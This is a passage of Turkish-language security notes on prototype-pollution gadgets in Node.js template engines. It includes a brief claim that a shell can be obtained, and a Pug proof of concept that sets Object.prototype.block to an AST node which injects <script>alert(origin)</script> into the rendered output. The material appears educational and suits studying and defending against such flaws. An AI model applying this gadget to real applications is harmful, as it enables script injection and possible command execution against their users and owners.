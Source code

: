 ```
# execute
requests.get(TARGET_URL)


```


![Pasted image 20250129201704.png](/img/user/resimler/Pasted%20image%2020250129201704.png)

Değeri içine herhangi bir komut ekleyerek shell elde edebiliriz.


## Pug

![Pasted image 20250129201745.png](/img/user/resimler/Pasted%20image%2020250129201745.png)

Bugüne kadar bu pug toplam 65,827,719 kez indirilmiştir. pug daha önce jade adı altında geliştirilmiş ve ismi değiştirilmiş bir modüldür. İstatistiklere göre nodejs'deki en popüler 4. template motorudur.


### How to Detect

```
const pug = require('pug');

const source = `h1= msg`;

var fn = pug.compile(source);
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works</h1>


```

Bir pug'da template kullanmanın yaygın bir yolu yukarıdaki gibidir. pug.compile fonksiyonu bir stringi bir template fonksiyonuna dönüştürür ve referans için objeyi geçirir.

```
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>


```
